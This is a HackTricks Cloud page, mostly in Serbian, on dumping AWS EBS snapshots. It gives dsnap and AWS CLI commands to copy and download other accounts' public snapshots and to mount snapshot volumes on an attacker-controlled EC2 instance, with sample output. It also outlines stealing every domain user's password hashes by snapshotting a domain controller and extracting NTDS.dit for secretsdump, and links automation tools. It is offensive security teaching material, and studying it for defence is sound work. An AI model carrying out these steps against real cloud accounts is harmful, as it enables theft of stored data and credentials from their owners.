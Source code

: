 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Provera snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Napomena** da `dsnap` neće omogućiti preuzimanje javnih snimaka. Da biste to zaobišli, možete napraviti kopiju snimka u svom ličnom nalogu i preuzeti to:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Za više informacija o ovoj tehnici pogledajte originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Možete to uraditi sa Pacu koristeći modul [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Proveravanje snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istoj regiji kao kopija rezervne kopije):

Korak 1: Novi volumen vaše omiljene veličine i tipa treba da se kreira odlaskom na EC2 –> Volumeni.

Da biste mogli da izvršite ovu radnju, pratite ove komande:

* Kreirajte EBS volumen koji će se priključiti EC2 instanci.
* Osigurajte da su EBS volumen i instanca u istoj zoni.

Korak 2: Opcija "priključi volumen" treba da se izabere desnim klikom na kreirani volumen.

Korak 3: Instanca iz tekstualnog okvira instance treba da se izabere.

Da biste mogli da izvršite ovu radnju, koristite sledeću komandu:

* Priključite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i nabrojite dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podataka koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande prikazuje "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 datotečni sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti i xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba da koristite ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru da montirate novi ext4 volumen. Na primer, možete koristiti naziv "newvolume".

Da biste mogli da izvršite ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u direktorijum "newvolume" i proverite prostor na disku da biste potvrdili montiranje volumena.

Da biste mogli da izvršite ovu radnju, koristite sledeće komande:

* Promenite direktorijum u `/newvolume`.
* Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da prikaže slobodan prostor u direktorijumu "newvolume".

Možete to uraditi sa Pacu koristeći modul `ebs__explore_snapshots`.

## Proveravanje snimka u AWS (koristeći cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Svaki AWS korisnik koji ima dozvolu **`EC2:CreateSnapshot`** može ukrasti heš vrednosti svih korisnika domena kreiranjem **snapshot-a Kontrolera domena**, montirajući ga na instancu koju kontroliše i **izvozeći NTDS.dit i SYSTEM** registry hive datoteku za korišćenje sa Impacket-ovim secretsdump projektom.

Možete koristiti ovaj alat za automatizaciju napada: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti neku od prethodnih tehnika nakon kreiranja snapshot-a.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
